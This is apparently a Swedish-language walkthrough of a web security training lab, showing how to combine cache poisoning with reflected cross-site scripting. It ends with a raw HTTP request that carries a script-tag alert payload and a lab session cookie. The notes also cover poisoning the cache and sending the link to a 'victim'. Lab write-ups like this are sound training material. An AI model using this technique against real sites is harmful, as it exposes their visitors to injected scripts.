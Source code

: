 
du måste skicka requesten med burp annars kommer browser url encoda. 
byt frågetecknet från `?` till `%3f` på en request. responsen kommer visa *unga bunga*. du kommer kunna injecta xss. Du kommer inte kunna köra en `<img>` div pga mellanrum. kanske med url encodad mellanslag??? inte testat. sa fuck it och smällde in script ist. 
se till att cacha unga bunga med xss och besök sidan, alert(1) poppar.
Cacha sidan igen och skicka länk till victim. Ez money.

```
GET /post%3fpostId=1<script>alert(1)</script> HTTP/2
Host: 0a9100da0474f5da8486404400d900af.web-security-academy.net
Cookie: session=NmSdiGQJsebsRnfaSQVk5hQyR6R0k13u
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9100da0474f5da8486404400d900af.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
